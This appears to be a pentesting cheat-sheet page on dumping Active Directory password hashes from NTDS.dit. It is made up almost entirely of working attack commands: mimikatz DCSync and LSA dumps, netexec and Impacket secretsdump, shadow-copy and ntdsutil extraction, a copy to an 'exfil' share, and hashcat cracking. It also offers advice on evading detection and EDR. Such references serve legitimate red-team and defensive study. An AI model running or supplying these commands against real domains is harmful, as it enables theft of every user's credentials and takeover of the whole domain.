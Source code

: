 # Active Directory - NTDS Dumping

You will need the following files to extract the ntds :

- NTDS.dit file
- SYSTEM hive (`C:\Windows\System32\SYSTEM`)

Usually you can find the ntds in two locations : `systemroot\NTDS\ntds.dit` and `systemroot\System32\ntds.dit`.

- `systemroot\NTDS\ntds.dit` stores the database that is in use on a domain controller. It contains the values for the domain and a replica of the values for the forest (the Configuration container data).
- `systemroot\System32\ntds.dit` is the distribution copy of the default directory that is used when you install Active Directory on a server running Windows Server 2003 or later to create a domain controller. Because this file is available, you can run the Active Directory Installation Wizard without having to use the server operating system CD.

However you can change the location to a custom one, you will need to query the registry to get the current location.

```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters /v "DSA Database file"
```

## DCSync Attack

DCSync is a technique used by attackers to obtain sensitive information, including password hashes, from a domain controller in an Active Directory environment. Any member of Administrators, Domain Admins, or Enterprise Admins as well as Domain Controller computer accounts are able to run DCSync to pull password data.

#### From Windows:
- DCSync only one user

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /user:krbtgt
  ```

- DCSync all users of the domain

  ```ps1
  mimikatz# lsadump::dcsync /domain:htb.local /all /csv

  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds
  netexec smb 10.10.10.10 -u 'username' -p 'password' --ntds drsuapi
  ```
#### From Linux:
- DCSync Using Impacket Secretsdump
  ```bash
  secretsdump.py -outputfile <outfile> -just-dc <domain/user>@<dc ip> 
  ``` 
   Useful Options
  - `-just-dc`: Extracts NTLM hashes and Kerberos keys
  - `-just-dc-ntlm`: Just dump NTLM hashes
  - `-just-dc-user <username>': Extract only a specific user
  - `-pwd-last-set`: See when the users last changed their password
  - `history`: Dump their password history as well
  - `-user-status`: See if a user is disabled

> :warning: OPSEC NOTE: Replication is always done between 2 Computers. Doing a DCSync from a user account can raise alerts.

## Volume Shadow Copy

The VSS is a Windows service that allows users to create snapshots or backups of their data at a specific point in time. Attackers can abuse this service to access and copy sensitive data, even if it is currently being used or locked by another process.

- [windows-commands/vssadmin](https://learn.microsoft.com/fr-fr/windows-server/administration/windows-commands/vssadmin)

  ```powershell
  vssadmin create shadow /for=C:
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit C:\ShadowCopy
  copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\ShadowCopy
  ```

- [windows-commands/ntdsutil](https://learn.microsoft.com/fr-fr/troubleshoot/windows-server/identity/use-ntdsutil-manage-ad-files)

  ```powershell
  ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
  ```

- [Pennyw0rth/NetExec](https://www.netexec.wiki/smb-protocol/obtaining-credentials/dump-ntds.dit) - VSS module

  ```powershell
  nxc smb 10.10.0.202 -u username -p password --ntds vss
  ```

## Forensic Tools

A good method for avoiding or reducing detections involves using common forensic tools to dump the NTDS.dit file and the SYSTEM hive. By utilizing widely recognized and legitimate forensic software, the process can be conducted more discreetly and with a lower risk of triggering security alerts.

- Dump the memory with [magnet/dumpit](https://www.magnetforensics.com/resources/magnet-dumpit-for-windows/)
- Use volatility to extract the `SYSTEM` hive

  ```ps1
  volatility -f test.raw windows.registry.printkey.PrintKey
  volatility --profile=Win10x64_14393 dumpregistry -o 0xaf0287e41000 -D output_vol -f test.raw
  ```

- Use [exterro/ftk-imager](https://www.exterro.com/digital-forensics-software/ftk-imager) to read the disk in raw state
    - Go to `File` -> `Add Evidence Item` -> `Physical Drive` -> `Select the C drive`.
    - Export `C:\Windows\NTDS\ntds.dit`.
- Finally use secretdump: `secretsdump.py LOCAL -system output_vol/registry.0xaf0287e41000.SYSTEM.reg -ntds ntds.dit`

## Extract hashes from ntds.dit

Then you need to use [impacket/secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to extract the hashes, use the `LOCAL` options to use it on a retrieved ntds.dit

```java
secretsdump.py -system /root/SYSTEM -ntds /root/ntds.dit LOCAL
```

[secretsdump](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) also works remotely

```java
./secretsdump.py -dc-ip IP AD\administrator@domain -use-vss -pwd-last-set -user-status 
./secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
```

- `-pwd-last-set`: Shows pwdLastSet attribute for each NTDS.DIT account.
- `-user-status`: Display whether or not the user is disabled.

## Extract hashes from adamntds.dit

In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.

- Dump adamntds.dit with Shadow copy using `vssadmin.exe`

    ```ps1
    vssadmin.exe create shadow /For=C:
    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
    ```

- Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`

    ```ps1
    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
    ```

- Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)

    ```ps1
    ntdissector path/to/adamntds.dit
    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
    ```

## Crack NTLM hashes with hashcat

Useful when you want to have the clear text password or when you need to make stats about weak passwords.

Recommended wordlists:

- [Rockyou.txt](https://weakpass.com/wordlist/90)
- [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
- [Weakpass.com](https://weakpass.com/)
- Read More at [Methodology and Resources/Hash Cracking.md](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)

```powershell
# Basic wordlist
# (-O) will Optimize for 32 characters or less passwords
# (-w 4) will set the workload to "Insane" 
$ hashcat64.exe -m 1000 -w 4 -O -a 0 -o pathtopotfile pathtohashes pathtodico -r myrules.rule --opencl-device-types 1,2

# Generate a custom mask based on a wordlist
$ git clone https://github.com/iphelix/pack/blob/master/README
$ python2 statsgen.py ../hashcat.potfile -o hashcat.mask
$ python2 maskgen.py hashcat.mask --targettime 3600 --optindex -q -o hashcat_1H.hcmask
```

:warning: If the password is not a confidential data (challenges/ctf), you can use online "cracker" like :

- [hashmob.net](https://hashmob.net)
- [crackstation.net](https://crackstation.net)
- [hashes.com](https://hashes.com/en/decrypt/hash)

## NTDS Reversible Encryption

`UF_ENCRYPTED_TEXT_PASSWORD_ALLOWED` ([0x00000080](http://www.selfadsi.org/ads-attributes/user-userAccountControl.htm)), if this bit is set, the password for this user stored encrypted in the directory - but in a reversible form.

The key used to both encrypt and decrypt is the SYSKEY, which is stored in the registry and can be extracted by a domain admin.
This means the hashes can be trivially reversed to the cleartext values, hence the term “reversible encryption”.

- List users with "Store passwords using reversible encryption" enabled

    ```powershell
    Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
    ```

The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT.

## Extract hashes from memory

Dumps credential data in an Active Directory domain when run on a Domain Controller.

:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.

```powershell
mimikatz> privilege::debug
mimikatz> sekurlsa::krbtgt
mimikatz> lsadump::lsa /inject /name:krbtgt
```

## References

- [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
- [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
- [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)
- [Bypassing EDR NTDS.dit protection using BlueTeam tools - bilal al-qurneh - Jun 9, 2024](https://medium.com/@0xcc00/bypassing-edr-ntds-dit-protection-using-blueteam-tools-1d161a554f9f)
